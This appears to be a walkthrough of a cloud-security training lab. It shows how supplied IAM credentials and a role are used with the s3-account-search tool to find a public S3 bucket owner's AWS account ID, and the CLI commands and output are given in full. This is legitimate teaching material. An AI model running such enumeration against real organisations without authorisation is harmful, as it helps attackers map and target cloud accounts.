


### Scenario 

The ability to expose and leverage even the smallest oversights is a coveted skill. A global Logistics Company has reached out to our cybersecurity company for assistance and have provided the IP address of their website. Your objective? Start the engagement and use this IP address to identify their AWS account ID via a public S3 bucket so we can commence the process of enumeration.

  

### Things we are provided with 

|     |     |
| --- | --- |
| **IP Address** | 54.204.171.32<br> |
| **AWS Access Key** | AKIAXXXXXW4CEP7HK<br> |
| AWS Secret Key | UdXXXXXXXXXX4Hq3<br> |

  

### Also the thing mentioned in Lab objective 

The IAM user credentials you need are included in the entry point section, and the role you can assume is named `arn:aws:iam::427648302155:role/LeakyBucket`

  

### Solution 

From the IP provided in the lab objective which is `54.204.171.32` which will have a web server hosted on port 80

  

  

  

Now looking into the `view-source` page where we can find the images are pulled from a s3 bucket called `mega-big-tech` and mostly my assumption is with the IAM credentials provided in the lab objective will have access to this bucket 

  

   

  

Now with `aws configure` we can setup the credentials provided from the lab objective using the following command where we configured it with a custom profile called `pwnedlabs-1` 

  

```bash
nits@FWS-CHE-LT-8869 Downloads % aws configure --profile pwnedlabs-1                                             
AWS Access Key ID [None]: AKXXXXXXXX
AWS Secret Access Key [None]: UdXXXXXXXXXXX
Default region name [None]: us-east-1
Default output format [None]: 
```

  

Once after configuring that, we need to identify who is using these credentials and for that, we can run the following command like 

  

```bash
aws sts get-caller-identity --profile pwnedlabs-1
```

  

Which will actually, certain information like these where it tells the resource is a user and where it is named as `s3user` 

  

```json
{
    "UserId": "AIDAWHEOTHRF62U7I6AWZ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/s3user"
}
```

  

In order to identify the account ID from a public s3 bucket, we can utilise the following tool called `s3-account-search` which can be installed using the following command 

  

```bash
python3 -m pip install s3-account-search
```

  

### How the script works?


The script uses a clever method to identify the AWS account ID associated with an S3 bucket by leveraging the **S3:ResourceAccount Policy Condition Key**. This key checks permissions based on the AWS account owning the bucket.

Instead of randomly guessing all possible account IDs, the script makes the process much faster by:

1. Using **string matching** and **wildcards** to test patterns.
2. Incrementally adding digits that match correctly until the full account ID is revealed.

Now once after installing it, we can run the following command where the arn value is mentioned in the lab objective and s3 bucket name is `mega-big-tech` 

  

```bash
nits@FWS-CHE-LT-8869 Downloads % s3-account-search arn:aws:iam::427648302155:role/LeakyBucket mega-big-tech --profile pwnedlabs-1
Starting search (this can take a while)
found: 1
found: 10
found: 107
found: 1075
found: 10751
found: 107513
found: 1075135
found: 10751350
found: 107513503
found: 1075135037
found: 10751350379
found: 107513503799
```

  

What happens in the script his, The tool is leveraging the provided role (**LeakyBucket**) to interact with the S3 bucket (**mega-big-tech**) and determine the AWS account ID it belongs to. This process involves using permissions granted by the role to evaluate access and infer the account ID through policy conditions or error responses.


And as you see, we found the account ID as `107513503799`⁠ and it doesn’t stop there after identifying the accountID and with this account ID we can alot more different things.. but for this lab, that’s it 